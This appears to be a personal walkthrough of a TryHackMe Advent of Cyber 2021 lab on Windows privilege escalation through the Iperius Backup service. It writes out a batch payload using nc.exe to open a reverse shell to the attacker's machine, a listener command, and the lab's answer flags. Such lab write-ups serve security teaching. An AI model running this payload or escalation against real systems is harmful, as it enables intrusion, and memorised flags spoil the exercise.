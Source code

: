 # TryHackMe - Advent of Cyber 2021 - Day 13
## The Lost the Plan! (Networking)
> Edward Hartmann
> December 29, 2021

***<u>Refs/Links:</u>***
- [Advent of Cyber 2021 TOC](Advent%20of%20Cyber%20Table%20of%20Contents.md)  
-  Tags[^1]
-  Flag[^2]

[^1]: #privsec #windows 
[^2]: *Question 1:* `pepper`  
					*Question 2:* `10.0.17763 N/A Build 17763`  
					*Question 3:* `IperiusSvc`  
					*Question 4:* `C:\Program Files (x86)\Iperius Backup\IperiusService.exe`  
					*Question 5:* `thegrinch`  
					*Question 6:* `the-grinch-hack\thegrinch`  
					*Question 7:* `THM-736635221`  
					*Question 8:* `jazzercize`  

## TOC
- [Question 1](#Question-1)
- [Question 2](#Question-2)
- [Questions 3-4](#Questions-3-4)
- [Questions 5-6](#Questions-5-6)

## Walkthrough
In this box, we are told that the disaster recovery plan, that was locked down to protect its security and confidentiality, has become inaccessible due to a decrease in privileges of McSkidy's account due to Grinch's shenanigans. Can we escalate the privileges back and save the disaster recovery plan?

To start, either use the Attack Box or RDP into the system with the `xfreerdp` utility:

```
xfreerdp /u:mcskidy /p:Password1 /v:<TARGET_IP>
```

The information included in the TryHackMe walkthrough is summarized in the [Windows Privsec](../../../../Knowledge%20Base/Vulnerabilities/Privilege%20Escalation%20(privsec).md#Windows) section of this note. 
### Privesc
[Top](#TOC)

We are told first that the *Iperius Backup Service* offers a  potential [Privilege Escalation (privsec)](../../../../Knowledge%20Base/Vulnerabilities/Privilege%20Escalation%20(privsec).md#Windows) vector due to its potential to run backup tasks with admin privileges despite the local users privilege level. Open the search bar at the bottom of the screen and search `Iperius` and launch the application. 

Start a new backup task by clicking the left-most icon on the menu bar and configure as follows. 

![Creating a Backup Task](AoC-2021_Photos/Day_13/01_AoC-Day-13_12-29-21-Iperius.png)

#### Source

In the `Items` tab on this screen select the file icon with a `+` sign and set the path to `C:\Users\McSkidy\Desktop` and click `OK`. 

![Backup Path](AoC-2021_Photos/Day_13/02_AoC_Day_13_12-29-21-Backup-Path.png)

#### Destination

On the `Destinations` tab, select the same folder icon and make the destination the `Documents` folder. 

![Destination Path](AoC-2021_Photos/Day_13/03_AoC_Day_13_12-29-21-Destination.png)

#### Executable

Here comes the exploit. In the `Other Processes` tab, we can choose to run a program before the backup executes, and it will be ran as administrator. If this file is malicious, the attacker can successfully escalate privileges. 

We are instructed to utilize a `.bat`, which stands for `Batch`, a basic executable in windows similar to `.sh` in *UNIX* systems. This `.bat` file will use another file located in `C:\Users\McSkidy\Downloads\nc.exe`. Launch *notepad* and add the following code. 

```
@echo off 

C:\Users\McSkidy\Downloads\nc.exe <HOST_MACHINE_IP> 1337 -e cmd.exe
```

> You find the attacking IP by running `ip a` and using `eth0` for the Attack Box or `tun0` if you are on a VPN. 

![Editing Evil.bat](AoC-2021_Photos/Day_13/04_AoC_Day_13_12-29-21-Editing-Evil-Bat.png)

Save the file as `evil.bat` on the `Desktop`. Notice the little gear icon in the filename? Windows is telling you this is executable. 

What is happening? This file is calling the `Ncat` utility in our `Downloads` folder, a common tool used by attackers to create a reverse shell. Our code is telling `nc` to connect to our attacking machine IP on port `1337` and run a program with `-e`. The program we want ran is `cmd.exe`, the command prompt in Windows. 

#### Staging

On your host, prepare a `nc` listener. The great thing about `nc` is that we can connect `nc` to `nc` using a different set of flags. Run this on your host (the attacking host):

`nc -lvnp 1337`

This is listening, providing verbose output, not resolving domain names, and doing all of it on port `1337`. 

![nc Listening](AoC-2021_Photos/Day_13/06_AoC_Day_13_12-29-21-Listening.png)

Let's verify the payload works first. Double click `evil.bat` to run it and check back on your listening host, you should see a shell. Type `whoami` to confirm you are `mcskidy`. We have not escalated privileges yet, but this confirms that the payload works. Disconnect with <kbd>ctrl</kbd>+<kbd>c</kbd>

![Shell Connected](AoC-2021_Photos/Day_13/07_AoC_Day_13_12-29-21-Payload-Confirmed.png)

Great! That payload works, now we just need to run it as an administrator using *Iperius*

#### Exploiting
Now we are ready to stage the exploit. Choose `evil.bat` to run on the `Other processes` tab before the backup. 

![Selecting evil.bat](AoC-2021_Photos/Day_13/05_AoC_Day_13_12-29-21-Selecting-Evil-File.png)

Click `Next`, give the job a name. Restart your listener on the attack box! 

On the main screen, right-click your Evil Backup and select `Run backup as service`. Notice that it is running as the admin user.

> User obscured to save the flag, try harder!

![Running Evil Backup](AoC-2021_Photos/Day_13/09_AoC_Day_13_12-29-21-Running-Evil-Backup.png)

If successful, after about a minute you should get a shell on your listener, and typing `whoami` will return 

![The Grinch Shell](AoC-2021_Photos/Day_13/10_AoC_Day_13_12-29-21-THEGRINCH.png)

Bingo! We have an admin shell on the machine. 
### Question-1
[Top](#TOC)
Now that we have a shell as admin, it is time to gather some information. 

The first question is asking for a username. The command `net users` should give is this info. 

![net users Info](AoC-2021_Photos/Day_13/11_AoC_Day_13_12-29-21-net-users.png)

### Question-2
[Top](#TOC)

How about the OS Version? `systeminfo` will tell us about the machine we are on. We can use the command from the guide in the beginning for some cleaner output. 

```
systeminfo | findstr /B /C:"OS Version"
```

![OS Version](AoC-2021_Photos/Day_13/12_AoC_Day_13_12-29-21-OS-Version.png)

### Questions-3-4
[Top](#TOC)

For questions about the services that are running, we want the [wmic](../../../../../course-notes/Tools,%20Binaries,%20and%20Programs/Windows/wmic.md) command  `wmic service list`. But we have a problem...there is a **huge** list of services. Part of learning to use commands is learning the power of those commands. With a little research (such as [here](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr)) you can learn more about the `findstr` command used earlier to find the `OS Name` and `OS Version` and modify it to our needs. 

With `findstr`, we can ignore the case of the string we are searching for with `/i` and use a `regex` search by adding the `/r` flag. The regex we want is `.backup.`. Each `.` stands for a *wildcard* character, meaning all the line needs to contain is `backup` and it will return in the output. 

>Learn more about the `/B` and `/C`commands at the link as well!

It may take a few entries for this question to get the right one because Windows returns notoriously long output...but you'll find it here. 

![wmic Backup Search](AoC-2021_Photos/Day_13/13_AoC_Day_13_12-29-21-wmic-Iperius.png)

You can also identify the path to the service in this image...look closely. 

### Question-4
[Top](#TOC)

Simply type the command `whoami` to identify the user you are currently accessing the machine with. 

![whoami](AoC-2021_Photos/Day_13/14_AoC_Day_13_12-29-21-THEGRINCH.png)

### Questions-5-6
[Top](#TOC)

Finally, we need to find the contents of `flag.txt` and identify information about The Grinch's schedule.  You can find the files in the `Documents` directory of `thegrinch`. Use `cd` and `dirs` to change directories and list the files. The windows CLI command `type` will list the contents of the file for us once you are in the correct directory. Use the following commands. 

```
type flag.txt

type Schedule.txt
```

![Flag and Schedule](AoC-2021_Photos/Day_13/15_AoC_Day_13_12-29-21-Flag-and-Schedule.png)

And there you have it!

***Congratulations on completing this box!***  

See you at the next one &mdash; [Advent of Cyber 3 Day 14](Day%2014%20-%20Advent%20of%20Cyber%202021.md)
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
